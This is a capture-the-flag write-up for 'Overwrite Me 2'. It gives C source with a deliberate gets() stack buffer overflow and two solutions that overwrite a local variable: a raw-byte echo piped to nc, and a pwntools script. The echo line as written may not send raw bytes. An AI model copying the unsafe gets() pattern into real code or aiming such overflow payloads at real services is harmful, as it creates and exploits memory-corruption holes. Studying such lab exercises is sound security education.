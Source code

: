 # Overwrite Me 2
We are given a similar source as in the first overwrite challenge only this time
the secret needs to be a non ASCII value. This means that we can't just input 
our payload like last time, instead we have to somehow send the raw bytes to the
binary.

```C
#include <stdio.h>

int main() {
    int secret = 0xdeadbeef;
    char your_secret[32];
    printf("Tell me your secret: ");
    gets(your_secret);
    if (secret == 0xbeefdead) {
        puts("Wow! Guess I was wrong: falg{notyurfalg}");
    } else {
        printf("Yay more secrets! Now they are shared on Twitter and Mastodon.\n");
    }
}
```

The simplest way of sending raw bytes to the binary is by using `echo` and piping
over netcat (`nc`), like so:

```
echo '\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe\xad\xde\xef\xbe' | nc IP_ADDRESS PORT
Tell me your secret: Wow! gg{becoming_1337_hax0r_takes_time_and_now_youve_started_the_journey}
```

However this quickly becomes tiresome for more complext challenges so it is 
always a good idea to use `pwntools` instead:

```python
from pwn import *

sh = remote('IP_ADDRESS', PORT)
payload = b"A" * 44
payload += p32(0xBEEFDEAD)
sh.recvuntil(b": ")
sh.sendline(payload)
flag = sh.recvline().decode()
print(flag)
```

